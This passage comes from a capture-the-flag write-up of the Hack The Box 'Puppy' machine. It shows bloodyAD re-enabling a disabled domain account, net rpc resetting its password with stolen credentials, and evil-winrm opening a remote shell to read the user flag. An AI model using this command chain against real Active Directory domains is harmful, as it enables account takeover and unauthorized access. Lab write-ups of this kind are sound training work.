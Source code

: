 We abuse our permissions a second time to `activate` the `account` using `BloodyAD`.

```shell
┌──(kali㉿kali)-[~]
└─$ bloodyAD --host 10.129.184.6 -d PUPPY.HTB -u ant.edwards -p Antman2025! remove uac 'adam.silver' -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

Then we changed the password again to ensure that no `cleanup job` would interfere the process.

```shell
┌──(kali㉿kali)-[~]
└─$ net rpc password "adam.silver" "newP@ssword2022" -U "PUPPY.HTB"/"ant.edwards"%'Antman2025!' -S "10.129.184.6"
```

After that we successfully `activated` the `account` of `adam.silver` and `changed` his `password`.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec ldap 10.129.184.6 -u "adam.silver" -p "newP@ssword2022"                                                 
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.129.184.6    389    DC               [+] PUPPY.HTB\adam.silver:newP@ssword2022
```

Now we were able to `login` as `adam.silver` and grab the `user.txt`.

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i puppy.htb -u 'adam.silver' -p 'newP@ssword2022'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents>
```

## user.txt

```shell
*Evil-WinRM* PS C:\Users\adam.silver\Desktop> type user.txt
96bc7d91c8a6b6d78aedef2d06d1f32f
```

## Enumeration (adam.silver)

With the session of `adam.silver` we started the `enumeration` of the `files` on the box.
